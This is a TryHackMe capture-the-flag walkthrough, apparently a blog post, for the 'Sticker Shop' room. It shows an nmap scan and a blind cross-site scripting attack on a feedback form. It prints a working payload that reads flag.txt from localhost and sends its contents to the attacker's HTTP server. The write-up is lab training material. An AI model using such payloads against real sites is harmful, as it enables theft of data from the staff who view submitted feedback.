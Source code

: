```yaml
---
title: TryHackMe - The Sticker Shop
author: rene
date: 2025-02-13 17:25:44 +0100
description: A simple walkthrough on using ❌ Cross-Site Scripting for this challenge #
categories: [TryHackMe]
tags: [web, xss]     # TAG names should always be lowercase
render_with_liquid: false
image:
    path: /images/tryhackme_the_sticker_shop/room_image.png
---
```

## Intro

Can you exploit the sticker shop in order to capture the flag?

[![Tryhackme Room Link](/images/tryhackme_the_sticker_shop/room_card.png){: width="300" height="300" .shadow}](https://tryhackme.com/room/thestickershop){: .center }

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

## Nmap

Let’s start by scanning open ports:

```console
nmap -T4 -n -sC -sV -Pn -p- 10.10.10.243
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As the backup http port is open we can visit the website via `10.10.10.243:8080`.

Let’s try to visit `10.10.10.243:8080/flag.txt`
![Slash Flag.txt](/images/tryhackme_the_sticker_shop/slash-flagtxt.png){: width="600" height="450" .shadow}


Let's visit Feedback subpage
![Submit Page](/images/tryhackme_the_sticker_shop/form.png){: width="600" height="450" .shadow}


## Cross-Site Scripting

Let's try some XSS

Let's host a python server and try to fetch our attacker machine via script:
```console
python3 -m http.server 8000
```

And Submit our script:

```console
</textarea><script>fetch('http://10.11.75.122:8000');</script>
```

We've got a response meaning we have a Blind XSS vulnerability.

![Submit Page](/images/tryhackme_the_sticker_shop/xss_to_myself.png){: width="600" height="450" .shadow}

Now we can try to craft a payload which will look like this:
```console
</textarea><script>async function a() {const res1 = await fetch('http://127.0.0.1:8080/flag.txt');const b = await res1.text();const res2 = await fetch('http://10.11.75.122:8000?a=' + b);}a();</script>
```

##### Breakdown:

1. Fetches `flag.txt` from `http://127.0.0.1:8080/flag.txt`.
2. Reads its contents as text.
3. Sends the stolen content as a query parameter (`a=<OUR_FLAG>`) to `http://10.11.75.122:8000` (Our Attacker Machine).

## Flag

After starting our python server locally and inserting our payload, we receive the flag.

![Submit Page](/images/tryhackme_the_sticker_shop/flag.png){: width="600" height="450" .shadow}

---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
</style>